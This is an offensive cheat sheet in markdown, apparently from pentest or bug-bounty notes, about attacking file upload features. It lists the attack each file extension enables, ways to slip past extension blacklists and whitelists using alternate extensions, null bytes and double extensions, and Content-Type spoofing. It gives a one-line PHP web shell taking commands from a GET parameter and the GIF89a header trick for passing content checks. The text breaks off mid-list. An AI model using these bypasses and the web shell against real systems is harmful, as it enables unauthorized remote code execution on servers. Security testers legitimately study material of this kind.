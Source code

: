 
-  Upload Function:bangbang:
    - # Extensions Impact
        - `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
        - `SVG`: Stored XSS, SSRF, XXE
        - `GIF`: Stored XSS, SSRF
        - `CSV`: CSV injection
        - `XML`: XXE
        - `AVI`: LFI, SSRF
        - `HTML`, `JS` : HTML injection, XSS, Open redirect
        - `PNG`, `JPEG`: Pixel flood attack (DoS)
        - `ZIP`: RCE via LFI, DoS
        - `PDF`, `PPTX`: SSRF, BLIND XXE   
        - - - -
    - # Bypass
        - [ ] Blacklisting Bypass
            - PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
            - ASP → `asp`, `.aspx`, `.cer`, `.asa`
            - Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
            - Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
            - Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
        - [ ] Whitelisting Bypass
            - `file.jpg.php`
            - `file.php.jpg`
            - `file.php.blah123jpg`
            - `file.php%00.jpg`
            - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
            - `file.php%00`
            - `file.php%20`
            - `file.php%0d%0a.jpg`
            - `file.php.....`
            - `file.php/`
            - `file.php.\`
            - `file.php#.png`
            - `file.`
            - `.html`
           
        - [ ] Content-ish Bypass
            - [ ]  Content-type validation
                - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
                to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
            - [ ]  Content-Length validation
                - Small PHP Shell like:

            ```php
            (<?=`$_GET[x]`?>)
            ```

            - [ ]  Content Bypass Shell
            	- If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )
            	- GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
